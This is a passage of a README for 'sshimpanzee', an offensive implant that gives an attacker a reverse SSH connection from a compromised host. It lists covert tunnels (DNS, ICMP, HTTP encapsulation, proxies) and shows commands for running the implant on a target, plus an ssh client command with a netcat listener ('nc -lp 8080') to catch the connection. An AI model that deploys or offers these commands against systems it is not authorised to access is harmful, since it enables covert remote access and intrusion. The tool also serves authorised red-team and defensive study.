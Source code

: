 ```yaml
    name: remote-exec
    exec: internal-remote-exec
    is_internal: True

  python: # example of a stadard ssh subsystem
    enabled: False
    name: python
    exec: /usr/bin/python -c "print('python code')"
    is_internal: False
```


## Usage 

At runtime, sshimpanzee binary is configured through environment variable.
The `MODE` variable allows user to select between compiled tunnels. 
Every tunnels can be configured through environment variables. 
For example, to get a classic reverse connect to 127.0.0.1:8080 use the following:
```
MODE=socks REMOTE=127.0.0.1 PORT=8080 ./sshimpanzee
```

> It is possible to run sshimpanzee in debug mode with -d.
> In debug mode sshimpanzee will stay in foreground.

### Tunnels 

Currently sshimpanzee support several ways for the implant to reach out to the attacker ssh client:  
- DNS Tunnelling using dns2tcp protocol   
- Proxy :  HTTP/SOCKS4/SOCKS5   
- Sockets : (might be usefull if you want to implement your own tunnels)   
- ICMP tunnel   
- HTTP Encapsulation

### Sock Connection

1) Run ssh on client side as follow:

``` 
ssh anyrandomname@127.0.0.1 -oProxyCommand="nc -lp 8080" -i CLIENT
```


2) Run sshimpanzee on target :
```
MODE=sock REMOTE=127.0.0.1 PORT=8080 ./sshimpanzee 
```

Other examples :
```
MODE=sock REMOTE=127.0.0.1 PORT=8080 SSHIM_LISTEN= ./sshimpanzee  # bind and listen to 127.0.0.1:8080

MODE=sock UNIXPATH=/tmp/sock SSHIM_UNIX ./sshimpanzee # Connect to unix socket /tmp/sock
MODE=sock UNIXPATH=/tmp/sock SSHIM_UNIX= SSHIM_LISTEN= ./sshimpanzee # Bind and listen to /tmp/sock unix socket 
```
